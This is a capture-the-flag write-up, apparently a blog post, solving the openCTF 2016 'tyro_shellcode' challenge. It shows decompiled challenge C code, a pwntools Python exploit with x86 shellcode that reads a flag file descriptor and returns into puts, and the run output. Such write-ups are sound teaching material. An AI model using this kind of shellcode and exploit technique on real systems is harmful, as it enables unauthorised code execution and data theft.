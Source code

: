 ```yaml
---
layout: post
title: openCTF 2016 - tyro_shellcode
category: [Exploitation]
tags: [Exploitation, openCTF]
comments: true
---
```


**Points:** 50
**Solves:** 
**Category:** Exploitation
**Description:** Baby's first shellcode problem.
Server: 172.31.1.43:1617
Binary: 172.31.0.10/tyro_shellcode1_84536cf714f0c7cc4786bb226f3a866c

> [tyro_shellcode]({{site.url}}/assets/tyro_shellcode1_84536cf714f0c7cc4786bb226f3a866c)

Baby shellcode, basically we get a file descriptor to the open flag file and we need to write shellcode to read from it and write it to stdout.

{% highlight C %}
int main() {
    flagFileDesc = open("/home/challenge/flag", 0x0);
    setbuf(STDIN, 0x0);
    setbuf(STDOUT, 0x0);
    alarm(30);
    
    mmap_addr = mmap(0x0, 0x80, 0x7, 0x22, 0xffffffff, 0x0);
    memset(mmap_addr, 0xc3, 127);
    memset(localBuffer, 0x0, 127);
    
    puts("OpenCTF tyro shellcode challenge.\n");
    puts("Write me some shellcode that reads from the file_descriptor");
    puts("I supply and writes it to the buffer that I supply");
    printf("%d ... 0x%08x\n", "I supply and writes it to the buffer that I supply", flagFileDesc, mmap_addr);

    read(0x0, mmap_addr, 0x20);

    ret = mmap_addr();

    puts(localBuffer);

    edx = canary ^ *0x14;
    COND = edx == 0x0;
    if (!COND) {
            eax = __stack_chk_fail();
    }
    return ret;
}

{% endhighlight %}

# Solution

In my exploit I decided to be lazy again and used a static file descriptor 3 and a static bss address as read buffer. After that I decided instead of executing a write syscall to just return in one of the `puts` calls in `main` with the bss buffer as argument.

{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys

def sh():
  s = '''xor eax, eax
        xor ebx, ebx
        mov bl, 3
        mov ecx, 0x804a140
        mov al, 3
        mov dl, 0xff
        int 0x80
        push 0x804a140
        push 0x8048728
        ret
        '''

  return asm(s)

def exploit(r):
  r.recvuntil(' ... ')
  addr = int(r.recv(10), 16)
  log.info("Addr is at: " + hex(addr))

  r.send(sh())
  r.interactive()



if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['/vagrant/openCTF/tyro_shellcode1_84536cf714f0c7cc4786bb226f3a866c'])
        print util.proc.pidof(r)
        pause()
        exploit(r)
{% endhighlight %}

{% highlight text %}
➜  openCTF python ./shellcode.py
[*] For remote: ./shellcode.py HOST PORT
[+] Starting program '/vagrant/openCTF/tyro_shellcode1_84536cf714f0c7cc4786bb226f3a866c': Done
[2207]
[*] Paused (press any to continue)
[*] Addr is at: 0xffb7ff4c
[*] Switching to interactive mode

flagflagflag=====FLAGFLAG    <--- fake local flag
$
{% endhighlight %}